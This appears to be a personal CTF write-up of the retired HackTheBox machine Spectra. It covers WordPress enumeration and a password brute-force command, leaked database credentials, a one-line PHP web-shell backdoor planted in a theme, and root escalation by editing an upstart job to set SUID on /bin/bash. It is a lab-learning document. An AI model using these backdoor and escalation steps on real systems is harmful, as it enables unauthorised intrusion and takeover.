

Spectra has just retired from HackTheBox! Here's a quick and dirty writeup on my thought process while solving it.

<!--more-->

## HackTheBox - Spectra

**Box**: Spectra\
**IP address**: 10.10.10.229 \
**Local**: e89d27fe195e91██████████████████ \
**Proof**: d44519713b889d5██████████████████ \
**Lesson learnt**:

- If PHP files are blank, view them via `source-view` within the browser.
- Take a closer look into results shown by `linpeas.sh`. Don't skip over them just because you are lazy! Take time to scroll through them.
- If modification based on existing (original) script doesn't work, just rewrite them from scratch.

### Local

#### Enumeration

Nmap scans reveals that Spectra is a rather straight foward box with only 3 open ports: `:22`, `:80`, `:3306`. Since MySQL port cannot be accessed remotely, I decided to focused on the webserver first.

Upon accessing the site, I see hints -- at the source code -- that suggests the need for the box's IP address to be mapped to `spectra.htb`. This prompted me edit `/etc/hosts` as shown below. With this, I can now access 10.10.10.229 with just `http://spectra.htb` via browser.


While manually enumerating the webserver, I noticed that `spectra.htb/main` is a WordPress directory. Further enumeration via `wpscans` yield no interesting results except that `administrator` was a valid user.

```bash
wpscan --url http://spectra.htb/main --enumerate u
wpscan --url http://spectra.htb/main --passwords /usr/share/wordlists/rockyou.txt --usernames administrator --wp-content-dir http://10.10.10.229/main/wp-content
```

Switching over to `spectra.htb/testing`, I noticed that this directory is essentially a copy of `/main`. The latter is likely a development environment used for testing before being pushed to production at `/main`.

In this directory, I found `wp-config.php.save`, an interesting file with database credentials. I initially disregarded this file as I didn't view the page via `source-view` and assumed it to be just a blank file. Yikes.


As `:3306` doesn't allow remote login, I tried using this set of credentials to log into the WordPress platform. `devtest:devteam01` wasn't successful, but `administrator:devteam01` worked just fine.

#### Attack Vector

Now that we have access to WordPress, I tried adding a simple PHP backdoor at `header.php` -- found by navigating to `Appearance > Theme Editor > Theme Header`.

```php
# Simple PHP backdoor script
<?php echo system($_GET["cmd"]); ?>  
```

After several tries, I realised that the edit function doesn't work for themes actively in use. I have to add this backdoor script to an inactive theme, then navigate to `Appearance > Themes` and switch to the modified theme. RCE is now possible!

I confirmed this by navigating to `spectra.htb/main/?cmd=whoami`. Success!


Unfortuantely, attempting to trigger a reverse shell via this backdoor didn't work. Instead, I utilized PHP shell from `/usr/share/webshells/php/php-reverse-shell.php` and added it to the `header.php`. Woohoo, a low-privilege shell!


#### Escalating to User Shell

While enumerating the webshell with `linpeas.sh`, I found more database credentials. Unfortunately, it doesn't seem to yield anything useful when I enumerated the database. A dead end.

```bash
# Credentials used: development01
mysql -u dev -p
```


After a second look into the results obtained from `linpeas.sh`, I found some autologin credentials.


Great! I can now SSH to user with the credentials!


### Proof

#### Enumeration

Now as Katie, `linpeas.sh` provies us with more information. In particular, `sudo -l` shows that Katie has permission to run `/sbin/initctl` as root without password.


Katie also has write permission at various test files located in `/etc/init`.


A quick research on `initctl` shows that the binary allows a system administrator to communicate and interact with the upstart scripts -- aka 'System Jobs' located in `/etc/init` -- and are run with sudo privilege.

#### Escalation Vector

Seems like editing any `.conf` files within `/etc/init` to include malicious commands -- such as enabling `/bin/bash`'s sticky bits -- would yield me a root shell! With that in mind, I edited `test.conf` with the contents below so that when ran with `sudo /sbin/initctl`, the `/bin/bash` executable will set its permissions to that of the user who created it (root).

```bash
description "Test node.js server"
author      "katie"

start on filesystem or runlevel [2345]
stop on shutdown

script
    chmod +s /bin/bash
end script
```

All's left is to trigger the edited script and spawn the root shell!

```bash
sudo /sbin/initctl start test
/bin/bash -p
```



